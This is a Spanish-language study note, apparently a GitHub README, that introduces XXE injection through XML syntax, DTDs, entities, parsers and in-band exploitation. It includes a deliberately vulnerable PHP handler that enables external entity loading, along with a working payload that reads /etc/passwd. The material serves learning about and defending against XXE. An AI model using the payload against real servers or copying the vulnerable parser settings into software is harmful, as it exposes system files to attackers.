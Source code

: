 # Introducción

XXE (XML External Entity) Es un tipo de injección que explota las vulnerabilidades de una aplicacion via XML. Esto occure cuando la apclicacion acpeta un input XML inclute entidades external. Los atacantes pueden acceder a archivos locales, hacer consultas al servidor, o ejecutar código remoto.

## Objetivos

- Reconocer los conceptos fundamentales y peligrosos asociadas a la injección XXE
- Identificar Vulnerabilidades XXE procesar configuraciones y practicas
- Desarrollar técnicas de deteccion, explotación y mitigación de dicha vulnerabilidad

# Explorar XML

XML (Extensible Markup Language) Es un lenguaje de amrgado de SGML (Standart Generalized Markup Language) tiene la misma base del estándar HTML. Normalmente usado en aplicaciones para guardar y tansportar datos en formato de lectua humano. 

## Sintaxis y Estructura

```
<?xml version="1.0" encoding="UTF-8"?>
<user id="1">
   <name>John</name>
   <age>30</age>
   <address>
      <street>123 Main St</street>
      <city>Anytown</city>
   </address>
</user>
```

## XSLT

XSLT (Exstensible Stylesheet Language Transformation) Es un lenguaje usado para transformar en documentos XML. Mientras XSLT es normalmente usado para transformar datos y formatting. 

Se usa para:

1.Data Extraction
2.Entity Expansion
3.Data Manipulation
4.Blind XXE

## Que son los DTDs

DTDs o Document Type Definitions definen la estructura y construcción de un documentos XML. Ellos especifical los elementos, atributos, y relaciones entre ellos. 

Proposito:

- Validacion
- Enity Declaration

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE config [
<!ELEMENT config (database)>
<!ELEMENT database (username, password)>
<!ELEMENT username (#PCDATA)>
<!ELEMENT password (#PCDATA)>
]>
<config>
<!-- configuration data -->
</config>
```

## DTDs y XXE

DTds Juegan un papel crucial en las injecciones XXE, ellos son los que declaran las entidades external. Se refieren a archivos externos o URLs

## Entidades XML

Son los que gaurdan los datos o cóidgo que se expanden con el documento XML. Hay 5 tipos de entidades:internas, external, parametrales, generales y caracteres

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY external SYSTEM "http://example.com/test.dtd">
<config>
&external;
</config>
```

![image](https://github.com/user-attachments/assets/adea0416-6dec-4a29-afaa-245fc3a4c188)

# XML Mecanismos de análisis

Es el proceso que hace XML para leer un arcivo, esta iformación es accesible y manipulable con el software del programa. SML convierte los datos del formato XML dentro de la estructura del programa como por ejemplo (DOM tree). Durante el proceso, se valida los datos XML con un esquema, asegurandose que una estructura contiene las reglas.

Si un mecanismo es configurado con un proceso externo, hay que tener autorizació nde acceso al archivo, sistemas internos o páginas externas.

## COmmon XML Mecanismos

- DOM: (Document Object Model)
- SAX (Simple API for XML)
- StaX (Streaming API for XML)
- Xpath Parser

# Explotar XXE- In-Band

## In-Band vs Out-Of-Band

IN-band XXE se refiere a vulnerabilidades cuando el atacante ve la respuesta del servidor. Esto da casos de filtración de datos y explotación. Los atacatantes mandan código malicoso a la aplicación, el servidor puede responder con los datos extraidor o resultado de lataque

Out-of-band es la otra cara, se refiere a una vulnerablidad donde el atacante no puede ver la respuesta de lservidor.

## In-Band Explotation

![image](https://github.com/user-attachments/assets/f1b06619-a7d3-4a9e-aa06-9fc5bec2fb50)

![image](https://github.com/user-attachments/assets/88e84c62-eab4-49b2-86f4-6043fe85c2be)

```
libxml_disable_entity_loader(false);

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $xmlData = file_get_contents('php://input');

    $doc = new DOMDocument();
    $doc->loadXML($xmlData, LIBXML_NOENT | LIBXML_DTDLOAD); 

    $expandedContent = $doc->getElementsByTagName('name')[0]->textContent;

    echo "Thank you, " .$expandedContent . "! Your message has been received.";
}
```

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<contact>
<name>&xxe;</name>
<email>test@test.com</email>
<message>test</message>
</contact>
```


